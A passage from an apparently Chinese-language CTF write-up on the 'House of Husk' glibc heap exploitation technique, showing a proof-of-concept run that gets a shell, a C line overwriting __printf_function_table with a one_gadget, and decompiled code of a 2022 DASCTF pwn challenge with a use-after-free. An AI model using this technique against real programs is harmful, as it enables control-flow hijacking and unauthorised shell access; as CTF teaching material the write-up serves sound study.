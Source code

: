 ```bash
upwind@ubuntu-18:/mnt/hgfs/share/house_of_husk$ ./huskpoc
[+] libc -> 0x7f0af95c0000
$ whoami
upwind
```

经过测试，在 `__printf_function_table['X']` 处填写 one_gadget 也能拿到 shell

```c
// glibc/stdio-common/vfprintf-internal.c:2003
              /* Call the function.  */
              function_done = __printf_function_table[(size_t) spec]
                (s, &specs[nspecs_done].info, ptr);
```

因此，poc 也可以伪造 `__printf_function_table`

```c
    *(unsigned long*)(a[1] + ('X'-2)*8) = libc_base + ONE_GADGET;
```

## 例题分析

2022HWS硬件安全冬令营 X DASCTF Jan PWN 送分题（原题为第二届华为武汉研究所11·9网络安全大赛 just pwn it）

### 代码分析

ida F5 可得源码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ···
  init(argc, argv, envp);
  dest = malloc(0x1000uLL);
  memcpy(dest, "Gust", 5uLL);
  printf("Hello, %s.\n", (const char *)dest);
  buf = malloc(0x1000uLL);
  memcpy(buf, "Now you can get a big box, what size?\n", 0x27uLL);
  printf("%s", (const char *)buf);
  read(0, buf, 0x1000uLL);
  v4 = atoi((const char *)buf);
  if ( v4 <= 0xFFF || v4 > 0x5000 )
    return 0;
  ptr = malloc(v4);
  bufa = malloc(0x1000uLL);
  memcpy(bufa, "Now you can get a bigger box, what size?\n", 0x2AuLL);
  printf("%s", (const char *)bufa);
  read(0, bufa, 0x1000uLL);
  v5 = atoi((const char *)bufa);
  if ( v5 <= 0x4FFF || v5 > 0xA000 )
    return 0;
  v13 = malloc(v5);
  bufb = malloc(0x1000uLL);
  memcpy(bufb, "Do you want to rename?(y/n)\n", 0x1DuLL);
  printf("%s", bufb);
  read(0, bufb, 0x1000uLL);
  if ( *bufb == 'y' )
  {
    free(dest);
    printf("Now your name is:%s, please input your new name!\n", (const char *)dest);
    read(0, dest, 0x1000uLL);
  }
  bufc = malloc(0x1000uLL);
  memcpy(bufc, "Do you want to edit big box or bigger box?(1:big/2:bigger)\n", 0x3CuLL);
  printf("%s", (const char *)bufc);
```